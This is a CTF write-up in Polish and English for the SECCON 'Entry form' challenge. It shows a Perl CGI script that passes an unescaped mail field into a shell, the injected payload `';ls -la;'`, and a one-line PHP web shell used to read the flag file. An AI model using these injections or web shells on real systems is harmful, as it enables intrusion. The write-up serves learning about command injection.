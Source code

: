 ##Entry form (Web/Network, 100p)

```
http://entryform.pwn.seccon.jp/register.cgi

(Do not use your real mail address.)
```

###PL
[ENG](#eng-version)

Formularz pod podanym linkiem pozwalał nam na podanie adresu e-mail oraz nazwy użytkownika. Po wysłaniu podziękował nam za podanie informacji, ale w rzeczywistości niczego nie wysyłał. Krótka zabawa z modyfikacją wartości niczego nam nie dała więc postanowiliśmy się rozejrzeć. Okazało się, że serwer webowy ma włączone listowanie i pod `http://entryform.pwn.seccon.jp/` znaleźliśmy dodatkowo katalog `SECRETS` oraz plik `register.cgi_bak`. Pierwszy katalog nie był dostępny, ale drugi z plików dał nam kod źródłowy naszego formularza.

Najciekawsza część wyglądała następująco:

```perl
if($q->param("mail") ne '' && $q->param("name") ne '') {
  open(SH, "|/usr/sbin/sendmail -bm '".$q->param("mail")."'");
  print SH "From: keigo.yamazaki\@seccon.jp\nTo: ".$q->param("mail")."\nSubject: from SECCON Entry Form\n\nWe received your entry.\n";
  close(SH);

  open(LOG, ">>log"); ### <-- FLAG HERE ###
  flock(LOG, 2);
  seek(LOG, 0, 2);
  print LOG "".$q->param("mail")."\t".$q->param("name")."\n";
  close(LOG);

  print "<h1>Your entry was sent. <a href='?' style='color:#52d6eb'>Go Back</a></h1>";
  exit;
}
```

Jest to skrypt w Perlu, w którym od razu rzuca się w oczy możliwość wywołania własnego polecenia zawierając go w parametrze `mail`.

Potwierdza nam to wysłanie `';ls -la;'`. Według kodu źródłowego flagę mamy znaleźć w pliku `log`. Niestety wygląda na to, że skrypt perlowy nie ma praw do jego odczytania. W takim razie sprawdziliśmy co znajdowało się w uprzednio niedostępnym dla nas katalogu `SECRETS`. Znajdował się tam plik `backdoor123.php` o prostym kodzie: `<pre><?php system($_GET['cmd']); ?></pre>`. Wywołanie w nim polecenia `cat ../log` dało nam flagę:

`SECCON{Glory_will_shine_on_you.}`

### ENG version

Opening the provided link gave us a form asking for an e-mail and a username. After submitting it displayed a thank you message, but didn't really sent us anything. After some time playing with the values we decided to look around. It turned out that the webserver had listing enabled and going to `http://entryform.pwn.seccon.jp/` gave us a `SECRETS` directory and a `register.cgi_bak` file. The former wasn't available, but the latter file gave us a source code of our form.

The most interesing part was the following:

```perl
if($q->param("mail") ne '' && $q->param("name") ne '') {
  open(SH, "|/usr/sbin/sendmail -bm '".$q->param("mail")."'");
  print SH "From: keigo.yamazaki\@seccon.jp\nTo: ".$q->param("mail")."\nSubject: from SECCON Entry Form\n\nWe received your entry.\n";
  close(SH);

  open(LOG, ">>log"); ### <-- FLAG HERE ###
  flock(LOG, 2);
  seek(LOG, 0, 2);
  print LOG "".$q->param("mail")."\t".$q->param("name")."\n";
  close(LOG);

  print "<h1>Your entry was sent. <a href='?' style='color:#52d6eb'>Go Back</a></h1>";
  exit;
}
```

It's a Perl script and the first thing that comes to mind is the possibility of a bash command injection in the `mail` parameter.

We confirm it by sending `';ls -la;'`. According to the source code we were supposed to find the flag in the `log` file. Unfortunately it seemed that the Perl script didn't have a read access. In that case we tried accessing the previousely inaccessible `SECRETS` directory. There was a `backdoor123.php` file with a very simple source code: `<pre><?php system($_GET['cmd']); ?>`. Invoking a `cat ../log` gave us the flag:

`SECCON{Glory_will_shine_on_you.}`
